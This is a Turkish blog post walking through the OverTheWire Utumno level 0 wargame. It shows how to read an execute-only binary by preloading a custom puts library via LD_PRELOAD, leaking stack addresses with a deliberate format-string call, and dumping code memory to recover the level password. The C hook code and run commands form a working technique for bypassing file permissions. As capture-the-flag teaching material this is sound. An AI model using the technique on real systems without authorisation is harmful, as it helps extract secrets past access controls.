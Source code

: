 ```yaml
---
layout: post
title: "Overthewire - Utumno0 Çözümü"
subtitle: "C Kütüphaneleri mevzuları"
date: 2019-07-20 14:08:13 +0300
background: '/img/posts/06.jpg'
---
```

# Overthewire Çözümleri - Utumno0

## İpucu
- C dinamik kütüphaneleri
- LD_PRELOAD

## Çözüm

Programı çalıştırdığımızda "Read me! :P" çıktısını görüyoruz. Fakat programı **strings** komutuyla açmaya çalıştığımızda izin vermiyor.

```sh
strings: /utumno/utumno0: Permission denied
```

Zaten sonrasında **ls -l** ile programın okuma izni olmadığını
görüyoruz.

```sh
---x--x--- 1 utumno1 utumno0 7188 Nov  2  2018 utumno0
```

Programı okuyamıyoruz. Bu demek oluyor ki **ltrace**, **gdb**, **strings** gibi programların hiçbiri işe yaramayacak.

Programla ilgili şunu biliyoruz ki bir fonksiyon yardımıyla çıktı veriliyor ve bu fonksiyon da yüksek ihtimalle **puts** ya da **printf**'ten bir tanesi. Bu fonksiyonların zaten C kütüphanesinde olduğunu ve elle yazmadığımızı biliyoruz. Yani bir şekilde programın bizim yazdığımız fonksiyonu çağırmasını sağlayabilirsek, programı rahatlıkla okuyabiliriz.

Bunu yapmak için **LD_PRELOAD** çevre değişkenini kullanmamız gerekiyor. C programı çalıştırıldığında eğer **LD_PRELOAD** değişkeninin bir değeri varsa, diğer tüm kütüphanelerden önce **LD_PRELOAD** ile belirtilen kütüphane yüklenir.

Yani biz de kendi **puts** fonksiyonumuzu yazarak programın istediğimiz gibi çalışmasını sağlayabiliriz.

Öncelikle çok basit bir şekilde fonksiyonumuzun çalışıp çalışmadığını test edelim.

```sh
cd `mktemp -d`
vim puts.c
```
```c
#include <stdio.h>

int puts(const char *str) {
  
    printf("Çalıştı");

    return 0;
}
```
```sh
gcc -m32 -fPIC -shared -o puts.so puts.c

LD_PRELOAD=./puts.so /utumno/utumno0
```

Çıktı:
```sh
Çalıştı
```

Fonksiyonumuz çalışıyor. O zaman stack değerlerini okuyarak analizimize başlayalım.

```c
#include <stdio.h>

int puts(const char *str) {

    printf("%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x\n");

    return 0;
}
```

Gördüğünüz gibi kendi **format string** açığımızı oluşturarak **stack**'ten veri okuyacağız. Burada dikkat edilmesi gereken nokta, **printf** fonksiyonu, %x değerlerini her seferinde aynı bellekten okumaya başlayacağı için malesef for döngüsü kullanamıyoruz.

Çıktı:
```
f7fee710 ffffd5f4 f7fcf52c f7fc3dbc 0 ffffd5c8 8048402 80484a5 8048490 0 f7e27286 1 ffffd664 ffffd66c 0 0 0 f7fc2000
```

Bu çıktıyı şu şekilde değerlendirebiliriz. Fonksiyon çağırmalarda return adreslerini stack'e atılır. Kodumuzun 804 ile başlayan adreslere koyulacağını zaten biliyoruz. Böylece inceleyeceğimiz aralığı **8048402-80484a5** olarak belirleyebiliriz. Bir deneyelim:

```c
#include <stdio.h>

int puts(const char *str) {
  
    char *cp;
    int i;

    for (i = 0x8048402; i < 0x80484a5; i++ ) {
        cp = i;
        printf("%c", *cp);
   }
   return 0;
}
```

Çıktı:
```
�����f�f�UWVS�����Û��
                       �l$ ��
                             ����W�������)�����t%1������t$,�t$,U���������9�u���
                                                                                   [^_]Ív��S��������7�[�password: AŞIRI GİZLİ
```

Neyse ki ilk seferde parolayı bulduk. Parolayı çok farklı ve çok daha zor şekilde koda yerleştirebilirlerdi. En azından konsepti öğrenmiş olduk.

## Referanslar

https://medium.com/@meghamohan/everything-you-need-to-know-about-libraries-in-c-e8ad6138cbb4

https://catonmat.net/simple-ld-preload-tutorial